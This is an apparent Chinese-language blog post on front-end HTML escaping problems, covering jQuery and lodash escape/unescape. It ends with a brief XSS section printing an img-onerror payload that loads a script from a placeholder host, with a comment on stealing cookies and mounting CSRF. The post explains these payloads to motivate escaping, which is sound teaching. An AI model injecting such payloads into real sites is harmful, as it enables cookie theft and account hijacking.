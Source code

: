 ```yaml
---
title: Question
layout: post
date: 2019-8-20 16:55:11
categories: Question
tags: Question
---
```


# 开发常见问题
------

## 1. html转义问题
### dom 上的属性被$()转义：
```
$('<div data-comment="{&quot;title&quot;:&quot;重难点&quot;,&quot;background&quot;:&quot;rgb(240, 149, 82)&quot;,&quot;icon_src&quot;:&quot;/system/images/171025215642____.png&quot;,&quot;content&quot;:&quot;11111<br />22222<br />33333<br />44444<br />&quot;}"></div>')

// 将div标签上的 data-comment 属性转义后的值如下：
nodeValue: "{"title":"重难点","background":"rgb(240, 149, 82)","icon_src":"/system/images/171025215642____.png","content":"11111<br ></div>22222<br />33333<br />44444<br />"}" 
// 明显多出来一个</div>啊
```

>解决办法
1. lodash 的 escape 和 unescape(推荐)
* _.escape：转换字符串中的 `"&", "<", ">", '"', "'"` 为HTML的响应实体字符，没有其他多余的字符被转义。
```
_.escape('11111<br />22222<br />33333<br />44444<br />')
// "11111&lt;br /&gt;22222&lt;br /&gt;33333&lt;br /&gt;44444&lt;br /&gt;"
```
* _.usescape：转换字符串中的实体字符 `&amp;, &lt;, &gt;, &quot;, &#39;` 为响应的 HTML 字符。与escape中的字符一一对应。
```
_.unescape('11111&lt;br /&gt;22222&lt;br /&gt;33333&lt;br /&gt;44444&lt;br /&gt;')
// "11111<br />22222<br />33333<br />44444<br />"
```
* 如果不反转义直接放到dom中呢？
```
// 浏览器会反转义一次字符串，结果展示到页面上：
11111<br />22222<br />33333<br />44444<br /> // 纯字符串
```
* 当在浏览器控制台选中dom后，右键选择："Edit as HTML"后，展示的输入框内容相当于进行了一次 escape，确定输入后又进行了一次 unescape, HTML 中的预留字符必须被替换为字符实体。

2. 利用 jquery
```
// HTML标签转义（< 转为 &lt;）
function html2Escape(sHtml) {
  return $("<div/>").text(sHtml).html();
}
// HTML标签反转义（&lt; 转为 <）
function escape2Html(str) {
  return $("<div/>").html(str).text();
}
// 此方法在反转义的时候会将形如：1<br ></div>2<br />3<br />的内容反转为123
```

### 除了被 $() 转义外，其他情况有哪些呢？
1. XSS 攻击
在浏览器上随便选择一个 dom，控制台执行如下代码：
```
$0.innerHTML="<img src=@ onerror=alert(1)>" // alert(1)

$0.innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://xxx.com/xx.js\";document.body.appendChild(s);' />"
// 代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口等
```

------

### XSS 攻击(待续。。。)
